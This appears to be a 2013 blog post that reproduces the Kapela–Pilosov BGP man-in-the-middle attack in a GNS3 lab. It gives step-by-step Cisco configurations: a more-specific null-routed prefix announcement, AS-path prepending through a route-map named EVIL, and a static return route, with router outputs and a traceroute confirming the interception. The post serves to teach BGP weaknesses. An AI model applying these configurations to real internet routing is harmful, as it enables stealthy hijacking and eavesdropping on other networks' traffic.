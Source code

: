 ```yaml
---
title: 'BGP man in the middle (Kapela & Pilosov)'
date: 2013-03-13T22:17:56+00:00
author: burningnode
layout: post
categories: post
tags:
  - bgp
  - internet
  - internetwork
  - kapela pilosov
  - man in the middle
  - mitm
  - security
draft: false
---
```

Back in 2008 at DEFCON16, Tony Kapela and Alex Pilosov presented an interesting BGP attack : _an internet scale man in the middle_.

BGP security is interesting and there are numerous techniques, technologies and protocols to make internet routing more secure. However the problem depicted here remains unsolved. IETF is working on a solution called BGPsec to protect the path (the propagation of the route). Anyway BGPsec is in its early days, let&#8217;s focus on the attack.

In this lab I will use the following GNS3 topology. Configuration files will be available at the end of this post.

![BGP-MiTM-KP](/BGP-MiTM-KP.jpg)

The attack is not revolutionary in itself and is based on well-known techniques  
&#8211; Fake announce (static route to null interface + network statement)  
&#8211; Fake origin / reply path (AS preprending feature)

The goal of this attack is not a denial of service but a man in the middle. It is far more stealth as the traffic still reaches its legitimate destination. It is more difficult to detect, only the AS path through which the packets will go change.

Recall that BGP  
&#8211; will always prefer the most specific prefixes whatever the AS Path is,  
&#8211; does not validate route origin (and even if it does with RPKI/ROA, it would be fooled with _AS preprend_)

The goal of the attack is  
&#8211; place ourselves between the target AS and one or more ASes to sniff the traffic  
&#8211; keep a return path to go back to the target AS. Every ASes on the path must be left unmodified.

The attack consists in announcing a more specific prefix than the one advertised by the target AS to the internet, so the internet will go through the attacker AS to reach the legitimate AS.  
Then you will need to keep a path to talk with the legitimate AS, and redirect the traffic to it. Finally you can modify the TTL to be definitely stealthier.


**STEP 1 &#8211; Fake announcements**

Creation of the null route and installation in BGP

```
ip route 4.4.4.0 255.255.255.248 Null0

router bgp 666
 no synchronization
 bgp log-neighbor-changes
 network 4.4.4.0 mask 255.255.255.248
```

![BGP-MiTM-KP-step-1](/BGP-MiTM-KP-step-1.jpg)


**STEP 2 &#8211; Redirection**

Identify your reply path to the target

```
R1#sh ip bgp
...
*  4.4.4.0/24       12.12.12.2                             0 7 6 1 i
*&gt;                  19.19.19.9                             0 2 1 i
*                   16.16.16.6                             0 3 4 1 i
```

Fake the origin and make the routers on the return path deny the prefix (because there will be their ASN in the AS Path, and AS Path is a loop prevention mechanism)

```
ip access-list standard EVIL
 permit 4.4.4.0 0.0.0.7

route-map EVIL permit 10
 match ip address EVIL
 set as-path prepend 2 1

route-map EVIL permit 100

router bgp 666
 neighbor 12.12.12.2 route-map EVIL out
 neighbor 16.16.16.6 route-map EVIL out
 neighbor 19.19.19.9 route-map EVIL out
```

So we can check on R2 (not on the reply path)

```
R2#sh ip bgp
   Network          Next Hop            Metric LocPrf Weight Path
...
*&gt; 4.4.4.0/29       12.12.12.1               0             0 666 2 1 i
```

And R9 on the reply path

```
R9#sh ip route | i 4.4.4
B       4.4.4.0 [20/0] via 94.94.94.4, 00:23:39
```

Everything is good up to this point.

Now we need to redirect the traffic towards the real path in order to make it reach its legitimate destination (while we keep looking at it).  
To do so, install a static route with the first router of the reply path as next hop (on R1).

```
ip route 4.4.4.4 255.255.255.255 19.19.19.9
```

![BGP-MiTM-KP-step2](/BGP-MiTM-KP-step2.jpg)


**STEP 3 &#8211; Verification**

We can check on R8

```
R8#traceroute 4.4.4.4 so lo 0

Type escape sequence to abort.
Tracing the route to 4.4.4.4

  1 68.68.68.6 16 msec 16 msec 20 msec
  2 16.16.16.1 20 msec 32 msec 24 msec ==&gt; R1 - AS666
  3 19.19.19.9 36 msec 36 msec 40 msec
  4 94.94.94.4 72 msec *  76 msec
```

You&#8217;re done!


**STEP 4 &#8211; TTL**

The TTL modification is handled by a Linux box inside the AS. It is done using iptables TTL manipulations features (<a title="man iptables" href="http://ipset.netfilter.org/iptables.man.html" target="_blank">man iptables</a>).

[Download the configuration files](/BGP-MiTM-configs.zip)


**Links**

DEFCON16 Kapela-Pilosov video: [http://www.youtube.com/watch?v=S0BM6aB90n8](http://www.youtube.com/watch?v=S0BM6aB90n8)  
DEFCON16 Kapela-Pilosov slides: [http://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-pilosov-kapela.pdf](http://www.defcon.org/images/defcon-16/dc16-presentations/defcon-16-pilosov-kapela.pdf)